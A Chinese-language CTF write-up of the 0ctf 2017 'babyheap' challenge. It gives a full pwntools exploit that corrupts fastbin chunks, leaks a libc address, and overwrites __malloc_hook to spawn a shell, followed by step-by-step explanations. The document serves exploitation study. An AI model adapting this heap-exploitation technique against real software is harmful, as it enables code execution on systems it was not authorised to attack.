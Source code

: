 # 解析 Baby-Heap-2017-255 问题

> 主要参考了 [http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)

## 起源
> 这里调用了一个在libc中的重要BUG 就是利用在进行fastbin中不进行检查，而产生的。
> 要了解fastbin请参看[浅析Linux堆溢出之fastbin](http://www.freebuf.com/news/88660.html) 
> 在这里，其实它就是要用函数对malloc本身的不检查被使用的内容，而进行的操作

```python
def exploit(r):
    r.recvuntil(': ')

    alloc(0x20)             
    alloc(0x20)
    alloc(0x20)
    alloc(0x20)
    alloc(0x80)                 #  <1>

    free(1)
    free(2)                     #  <2>

    payload  = p64(0)*5
    payload += p64(0x31)
    payload += p64(0)*5
    payload += p64(0x31)
    payload += p8(0xc0)
    fill(0, payload)            #  <3>

    payload  = p64(0)*5
    payload += p64(0x31)
    fill(3, payload)            #  <4>

    alloc(0x20)
    alloc(0x20)                 #  <5>


    payload  = p64(0)*5
    payload += p64(0x91)
    fill(3, payload)            #  <6>
    alloc(0x80)                 #  <7>
    free(4)                     #  <8>

    libc_base = u64(dump(2)[:8]) - 0x3a5678
    log.info("libc_base: " + hex(libc_base))

    alloc(0x68)                 #  <9>
    free(4)                     #  <10>

    fill(2, p64(libc_base + 0x3a55ed))
    alloc(0x60)
    alloc(0x60)                 #  <11>

    payload  = '\x00'*3
    payload += p64(0)*2
    payload += p64(libc_base + 0x41374)
    fill(6, payload)            #  <12>
    log.info('wait for pause')
    pause()
    alloc(255)                  #  <13>

    r.interactive()

```

> 下面对于上面的代码进行解释，（对于pwn或者python不懂的人，请参考[pwn tutorial](https://docs.pwntools.com/en/stable/)）
> <1> 的位置，其实，就是分配了5个内存。这里分配前4个是在fastbin上进行分配的，而4号是在smallbin上进行分配的。这些都是有用的。
> <2> 这里释放了 1号与2号内存，记住0号内存没有释放。
> <3> 这里其实写了原来的1号与2号内存进行管理的header，这个时候就是设置为0x31，这个值是表示在fastbin中进行分配的。这里最后修改为0xc0的目的是把这个进行伪造成smallbin分配的内存。这个在2号就是在smallbin上分配了。
> <4> 这里是3号内存进行覆写。这里是把4号内存的header flag写了。
> <5> 又申请了1号与2号内存。这个时候，2号内存是与4号内存同一个地址，这个是进行处理的。
> <6> 把4号内存修改为0x91的flag，这个已经是可以在smallbin中实现的。
> <7> 这里分配了5号内存，这个是从smallbin 分配，这个是可以覆盖了bin地址
> <8> 释放4号内存，这时这个值是得到4号的main_arena的内容，2号内存是指向同一个地址，所以相同可以得到
> <9> 得到2号内存的main_arena地址，这个地址与libc的加载头地址的差值是0x3a5678,至于如何得到，这里请用gdb 与readelf进行读取。
> <10> 这里释放了4号内存，前面在<8>中得到的0x91使得它是用smallbin地址，这样可以设置进行设置0x31
> <11> 分配4号与6号内存，这些地址是可以进行处理的smallbin，
> <12> 设置地址是一段可执行exec("/bin/sh",args,__environ) 的起始代码，这个找到是进行disassemble。
> <13> 当时行分配的时候，原来的__malloc_hook已经进行了修改，就是我们修改的代码，这个时候，可以调用exec了。
> 
> 从全部的步骤看，这里的使用，真的进行攻击不是一个好方案，不但方法特别，而且不一定进攻确定。